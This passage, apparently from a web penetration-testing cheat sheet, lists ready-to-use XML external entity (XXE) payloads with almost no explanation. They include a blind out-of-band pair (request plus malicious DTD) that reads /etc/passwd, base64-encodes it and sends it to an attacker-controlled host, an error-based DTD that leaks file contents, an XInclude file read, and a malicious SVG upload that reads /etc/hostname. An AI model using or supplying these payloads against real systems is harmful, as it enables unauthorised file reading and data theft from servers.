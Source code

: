 ### XXE - Blind Out-Of-Band
#### Exfiltrate data exfiltrating data via dtd
-> Part 1 (Main Request)
```
<!DOCTYPE r[
<!ELEMENT r ANY>
<!ENTITY % ult SYSTEM "http://ip/evil.dtd">
%ult;
%int;
]>
<r>&exfil;</r>
```
  
-> Part 2 (evil.dtd)
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">  
<!ENTITY % int "<!ENTITY exfil SYSTEM 'http://ip/?leak=%file;'>">  
```  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.dtd

### Retrieve data via error messages with dtd file
-> Part 1 (Request Principal)
```
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://ip/error.dtd"> 
%xxe;
%payload;
%remote;
]>
```
-> Part 2 (error.dtd)

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % payload "<!ENTITY &#37; remote SYSTEM 'file:///idonotexist/%file;'>">
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/error.dtd  

```
  
### XInclude to retrieve files with dtd file
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### Image file upload

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.svg
